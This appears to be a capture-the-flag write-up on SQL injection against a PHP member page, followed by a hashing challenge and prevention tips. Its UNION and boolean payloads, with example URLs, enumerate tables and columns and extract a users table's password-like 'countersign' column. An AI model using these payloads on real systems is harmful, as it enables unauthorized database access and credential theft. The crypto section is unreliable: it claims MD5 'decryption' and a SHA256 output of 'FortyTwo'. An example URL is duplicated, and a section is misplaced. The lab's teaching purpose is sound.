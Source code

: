 # SQL Injection and Cryptographic Challenge Documentation

## Overview

This document provides a comprehensive guide on identifying and exploiting SQL injection vulnerabilities within a web application. Additionally, it outlines a cryptographic challenge involving MD5 hash decryption and SHA256 re-encryption, aimed at enhancing understanding of cryptographic principles and practices.

## Vulnerability Description

SQL injection vulnerabilities occur when an attacker is able to insert or "inject" a SQL query via the input data from the client to the application. This document details various types of SQL injection attacks, including table name disclosure, boolean-based SQL injection, column name disclosure, and data extraction, highlighting the potential for unauthorized access to or manipulation of database information.

## Exploitation

### Discovering Database Tables

- **Payload**: `1 UNION SELECT null, table_name FROM information_schema.tables`
- **Purpose**: This payload is used to list all tables within the database.
- **Example URL**: http://<ip_address>/index.php?page=member&id=1+UNION+SELECT+null%2C+table_name+FROM+information_schema.tables&Submit=Submit#

### Checking for Table Existence

- **Payloads**:
- `1 OR 1=1`: This payload is a basic test to change the query logic to always return true.
- `1 OR EXISTS (SELECT * FROM users)`: This payload checks if the `users` table exists by attempting to select records from it.
- **Example URL**: http://<ip_address>/index.php?page=member&id=1+UNION+SELECT+null%2C+table_name+FROM+information_schema.tables&Submit=Submit#

## Extracting Sensitive Data

- **Payload**: `1 OR 1=1 UNION SELECT Commentaire, countersign from users`
- **Purpose**: This payload extracts sensitive data from the `users` table, specifically the `Commentaire` and `countersign` columns.
- **Details**: The `users` table contains columns such as `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, and `countersign`.

## Cryptographic Challenge

- **Task**: Decrypt the `countersign` column values using MD5, convert the plaintext to lowercase, and then re-encrypt using SHA256.
- **Outcome**: The decrypted and re-encrypted value becomes "FortyTwo".

This document outlines the process of identifying and exploiting SQL injection vulnerabilities to discover database schema information and extract sensitive data. Additionally, it includes a cryptographic challenge that demonstrates the process of decrypting and re-encrypting data using different cryptographic algorithms.

### Discovering Column Names

- **Payload**: `1 UNION SELECT table_name, column_name FROM information_schema.columns`
- **Purpose**: This payload is used to list all columns within the database tables.
- **Example URL**: http://<ip_address>/index.php?page=member&id=1+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#

## Prevention

- **Parameterized Queries**: Use parameterized queries to prevent SQL injection, as they ensure that the input is treated as a data value rather than part of the SQL command.
- **Input Validation**: Implement strict input validation checks to reject suspicious or malformed data.
- **Use of Prepared Statements**: With prepared statements, the SQL query is defined separately from its parameters, minimizing the risk of injection.
- **Employ Stronger Hashing Algorithms**: Replace MD5 with more secure hashing algorithms like SHA-256 to enhance cryptographic security.
- **Regular Security Audits**: Conduct thorough security audits and penetration testing to identify and mitigate vulnerabilities.

## Additional Resources

- [OWASP SQL Injection Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [MD5 Hash Generator and Decrypt](https://md5decrypt.net/en/)
- [OWASP Secure Coding Practices](https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/)

This documentation aims to raise awareness about the critical nature of SQL injection vulnerabilities and the importance of cryptographic security in modern web applications. By understanding and applying the outlined prevention techniques, developers and security professionals can significantly enhance the security posture of their applications.
